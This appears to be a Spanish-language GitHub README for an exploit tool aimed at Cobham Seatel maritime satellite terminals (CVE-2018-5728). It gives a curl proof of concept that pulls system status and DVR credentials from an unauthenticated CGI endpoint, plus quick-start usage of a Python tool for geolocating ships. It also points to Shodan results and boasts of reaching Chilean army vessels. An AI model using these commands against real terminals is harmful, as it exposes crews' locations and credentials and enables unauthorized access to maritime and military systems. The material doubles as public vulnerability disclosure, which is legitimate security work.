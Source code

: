 # Terminales Seatel 
Las embarcaciones que ocupan la plataforma satelital Seatel (de la firma Cobham), cuenta con una serie de vulnerabilidades sobre los servicios de la misma terminal, que podría permitir fácilmente a terceros no autorizados entre otras cosas conocer su geolocalización.

![seatel_home](img/Radomos.jpg) 


#  [Exploit] show DVR Credentiales

	[*] Exploit Title:      "Sensitive exposure from Seatel satellite terminal" 
	[*] CVE:                 CVE-2018-5728
	[*] CVSS Base Score v3:  7.1 / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N/E:F/RL:W/RC:C
	[*] Exploit Author:      Fernandez Ezequiel ( twitter:@capitan_alfa )

	

### Simple PoC:

```
	$> curl "http://<dvr_host>:<port>/cgi-bin/getSysStatus"

```
## In the Wild:
![seatel_dorks_0](img/shodan_poc_1.png) 


# TOOL: "Seatel exposed ship"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/seatel_terminals.git
	usr@pwn:~$ cd seatel_terminals
	Usr@pwn:~$ python seaTel.py --host <host>

## help

	usage: seaTel.py [-h] [-v] --host HOST [--port PORT]

	[+] Where are you ship ?

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port (default 80)

	usr@pwn:~$ python seaTel.py --host <host>


## Pocs (Output) :
![seatel_poc_4](img/poc_tool_1.png)
![seatel_poc_4](img/poc_tool_2.png)


### Extra: CHILE ARMY !!!
![chile_army](img/2.jpeg)
![chile_army](img/4.jpeg)


### Blog:
https://misteralfa-hack.blogspot.com/2019/08/cobham-terminales-satelitales-seatel.html


I see you... ! xd